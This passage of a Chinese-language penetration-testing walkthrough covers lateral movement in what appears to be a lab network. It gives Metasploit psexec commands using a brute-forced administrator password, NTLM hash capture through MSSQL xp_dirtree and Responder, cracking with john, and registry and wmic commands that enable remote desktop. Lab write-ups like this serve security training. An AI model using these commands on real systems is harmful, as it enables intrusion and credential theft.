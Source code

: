 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-16d209e02354898cded35c7cb7a3520be5f45a5d.png)

这里爆破出密码123qwe!ASD

**PSEXEC\*\***传递\*\*

use exploit/windows/smb/psexec  
set payload windows/x64/meterpreter/bind\_tcp  
set rhosts 192.168.93.30  
set smbuser administrator  
set smbpass 123qwe!ASD

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-b3f3100a831006c6a5314a327aca0ea96fb533ee.png)

信息收集

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-cae8fff69299cffb8cb5d589d6c3d2714e09748d.png)  
这里拿到win7权限没有发现有用的信息

3.4 win2008（192.168.93.20）
--------------------------

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f6f7c4a2b91c8c988536a001f55f76ac6e3e6468.png)

这里可以看到开放了1433端口

使用之前得到的mssql数据库密码可以登陆

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-71b689bdd56df9dad364ecf25aa81225d77d9f8b.png)

使用[Responder.py](https://github.com/SpiderLabs/Responder)来伪造smb服务器来获取hash，然后利用mssql来进行触发验证

使用auxiliary/admin/mssql/mssql\_ntlm\_stealer，执行xp\_dirtree，触发UNC

最后使用john破解密码

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-4f1f1e14de035cdffead2636bd2ecce8dd2ba692.png)

使用vmiexec获取命令行

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a57fb364a7c87324bfcbfcc99cb8983acbacc448.png)

**开启3389**

设置远程桌面端口

reg add "HKLM\\System\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp" /t REG\_DWORD /v portnumber /d 3389 /f

开启远程桌面

wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1

检查端口状态

netstat -an|find "3389"

关闭远程桌面
